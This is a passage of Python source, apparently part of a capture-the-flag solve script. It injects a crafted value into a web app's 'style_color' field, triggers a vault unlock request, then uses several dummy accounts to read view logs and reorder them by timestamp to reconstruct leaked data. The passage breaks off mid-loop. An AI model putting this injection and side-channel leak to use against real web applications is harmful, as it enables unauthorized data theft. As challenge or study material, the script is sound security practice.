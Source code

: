 ```python
data = {"style_color": f"{pre}"}
r = requests.post(us_url, data=data, headers={"Content-Type": "application/x-www-form-urlencoded", "Authorization": f"{adt}"})
print(r.text)

tpreq_url = f"{link_pref}" + "/api/vault/unlock/request"
r = requests.get(tpreq_url, headers={"Authorization": f"{adt}"})
print(r.text)

ck_url = f"{link_pref}" + "/api/vault/check"
r = requests.post(ck_url, headers={"Authorization": f"{adt}"})
print(r.text)
print("\n")

v_url =f"{link_pref}" + "/api/views"
order =[]
for i in dummyaccs:
    adt = dummyaccs[i]
    r = requests.get(v_url, headers={"Authorization": f"{adt}"})
    print(r.json())
    try:
        order += r.json().get("views")
    except:
        pass

orderr = []
for i in order:
    u = i["username"]
    t = i["timestamp"][-9:-1]
    orderr += [(u, t)]
orderr.sort(key=lambda x: x[1])

c= 0 
ops =["plus", "minus", "mul", "div"]
used = []
l ="\n"
cc = 0
oc = 0
tc = 0

llll = []
for i in orderr:
    name = i[0][len(dummy_pref):]
    if name == "x":
        name +=str(oc)
        oc += 1
    elif name == "xx":
        name +=str(tc)
        tc += 1
    if c % 3  == 0:
        l =""
        l += name
    elif c % 3 == 1:
        if name in ops:
            l += " " + name + " "
            used += [name]
        else:
            s = ""
            for i in used:
                s += i + "/"
            l += " " + s + " " + name
            c += 1
        
```